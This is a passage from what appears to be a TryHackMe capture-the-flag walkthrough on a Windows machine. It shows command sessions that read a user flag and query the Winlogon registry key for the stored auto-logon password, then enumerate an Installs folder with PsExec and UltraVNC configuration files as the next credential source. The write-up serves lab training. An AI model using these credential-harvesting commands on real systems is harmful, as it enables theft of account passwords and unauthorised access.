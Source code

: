 ```sh
C:\> cd C:\Users\sign\Desktop

C:\Users\sign\Desktop> dir
Volume in drive C has no label.
Volume Serial Number is 481F-824B

Directory of C:\Users\sign\Desktop

26/01/2021  19:28    <DIR>          .
26/01/2021  19:28    <DIR>          ..
14/11/2020  14:15             1,446 Microsoft Edge.lnk
14/11/2020  15:32                52 user_flag.txt
               2 File(s)          1,498 bytes
               2 Dir(s)  16,891,207,680 bytes free

C:\Users\sign\Desktop> more user_flag.txt
thm{REDACTED}
```

## Retrieve User Password
Before moving forward with Privilege Esclation, we have some tasks we need to accomplish first. Looking into the hint provided by this room, we know that this user is automatically logged on.

That being said, let's check the registry for the default password.

```sh
C:\Users\sign\Desktop> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon"

    [CLIPPED]
    AutoLogonSID    REG_SZ    S-1-5-21-201290883-77286733-747258586-1001
    LastUsedUsername    REG_SZ    .\sign
    DefaultUsername    REG_SZ    .\sign
    DefaultPassword    REG_SZ    REDACTED
    AutoAdminLogon    REG_DWORD    0x1
    ARSOUserConsent    REG_DWORD    0x0

    [CLIPPED]
```

## Retrieve Administrator and VNC Password
This part took me awhile to figure it out, until I realized an interesting directory in the `C:\` directory.

```sh
C:\> cd Installs

C:\Installs> dir

Volume in drive C has no label.
Volume Serial Number is 481F-824B

Directory of C:\Installs

14/11/2020  16:37    <DIR>          .
14/11/2020  16:37    <DIR>          ..
14/11/2020  16:40               548 Install Guide.txt
14/11/2020  16:19               800 Install_www_and_deploy.bat
14/11/2020  14:59           339,096 PsExec.exe
14/11/2020  15:28    <DIR>          simepleslide
14/11/2020  15:01               182 simepleslide.zip
14/11/2020  16:14               147 startup.bat
14/11/2020  15:43             1,292 ultravnc.ini
14/11/2020  15:00         3,129,968 UltraVNC_1_2_40_X64_Setup.exe
14/11/2020  14:59       162,450,672 xampp-windows-x64-7.4.11-0-VC15-installer.exe
```